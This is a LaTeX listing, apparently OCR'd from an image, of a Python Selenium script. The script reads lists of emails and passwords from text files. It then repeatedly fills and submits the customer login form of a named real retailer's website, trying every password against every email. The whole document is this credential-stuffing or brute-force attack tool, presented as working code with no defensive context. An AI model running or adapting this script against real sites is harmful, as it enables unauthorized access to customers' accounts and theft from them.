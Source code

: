 \documentclass{article}
\begin{document}
    \begin{lstlisting}[lenguaje=py]
        import string, random, time
        from selenium import webdriver
        from selenium.webdriver.common.keys import Keys
        from selenium.webdriver.common.by import By
        from ctypes import sizeof
        ubicacionDriver = '/usr/local/bin/chromedriver'
        
        def readUsuarios():
            usuarios = list()
            arc = open("user.txt")
            lineas = arc.readlines()
            i = 0    #driver.get('https://www.abcdin.cl/')
            for lineas in lineas:
                usuarios.append(lineas)
            return usuarios
        
        def readPasswords():
            passwords = list()
            arc = open("pass.txt")
            lineas = arc.readlines()
            i = 0
            for lineas in lineas:
                passwords.append(lineas)
            return passwords
        
        
        if __name__ == "__main__":
            options = webdriver.ChromeOptions()
            options.add_argument('--start-maximized')
            options.add_argument('--disable-extensions')
        
            driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
            correos=readUsuarios()
            contraseñas=readPasswords()
            driver.set_window_position(1000,0)
            driver.maximize_window()
            time.sleep(1)
            driver.get('https://www.abcdin.cl/customer/account/login/')
            time.sleep(5)
            for contraseña in contraseñas:
                for correo in correos: 
                    
                    email = driver.find_element(By.ID, "email")
                    email.clear()
                    email.send_keys(correo)
                    time.sleep(1)
                    passw = driver.find_element(By.ID,"pass")
                    passw.clear()
                    passw.send_keys(contraseña)
                    time.sleep(1)
                    driver.find_element(By.ID, "send2").click()
                    time.sleep(2)
            driver.close()
        
        \end{lstlisting}
\newpage
\end{document}
